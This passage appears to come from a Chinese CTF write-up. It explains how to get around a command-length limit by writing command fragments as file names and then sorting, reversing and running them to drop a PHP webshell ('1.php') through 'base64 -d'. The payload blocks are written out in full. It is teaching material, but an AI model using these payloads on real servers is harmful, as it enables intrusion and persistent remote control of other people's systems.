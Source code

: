 ```bash
>V0\\
>bM\\
>1R\\
>PU\\
>1B\\
>kX\\
>Cg\\ 
>hb\\
>XZ\\
>gZ\\
>HA\\
>a\\
>9w\\
>PD\\
>S}\\
>IF\\
>{\\
>\$\\
>o\\
>ch\\
>e\\
```
然后我们在`kali`中做测试，一个一个按顺序把它敲进去，太艰难了
![[Pasted image 20250330093756.png]]
可以看到已经成功了，它已经按照时间顺序排序好了，那我们就把它执行的结果写入文件`f`中，然后利用`sh`来执行`f`，看能不能成功生成`1.php`
![[Pasted image 20250330093815.png]]

3、拼接出命令`ls -th >f`，害本来第二步我就想讲这个的，结果写着写着就写偏了，前面我们的`ls -t >f`这命令是直接写的，实际上题目中我们是肯定不可能直接写的，同样需要把它写成文件名拼接起来写入文件中，然后执行它，这就需要我们前面铺垫的知识了，这里我先把构造结果写出来，然后再分析，如果哪一步没看懂可以去上面看对应的铺垫知识哦：
>不把这个像上面那样按时间顺序排列是因为我们需要**执行命令**，不是单纯的排序
```bash
>dir
>f\>
>ht-
>sl
*>v  (等同于命令：dir "f>" "ht‐" "sl" > v )
>rev 
*v>0 前面的*v等同于命令rev v，相当于将v中的文件内容倒了回来，变回:ls -th >f
然后将倒转后的内容写入文件0中，文件0中的内容为:ls -th >f
```
首先是用`dir`代替了`ls`，原因上面也讲了，然后我们这里用`-th`代替了`-t`是因为字母顺序的问题，因为我们这里是选择先倒着写然后再用`rev`命令把它正过来，字母`h`顺序正好在字母`s`和`f`之间，所以说就可以，如果只有`t`的话它就会排在`s`的后面，顺序就乱了

4、前两步构造出来之后其实我们的核心步骤就已经完成了，第二步我们构造出来要执行的命令，第三步将要执行的命令写入到一个文件中，然后就是执行命令的过程了，先执行`ls -th >f`也就是`sh 0`，再执行文件`f`也就是`sh f`即可成功写入一句话，综合一下payload就是：
```bash
>dir
>f\>
>ht-
>sl
*>v
>rev 
*v>0
>hp
>p\\
>1.\\
>\>\\
>-d\\
>\ \\
>64\\
>se\\
>ba\\
>\|\\
```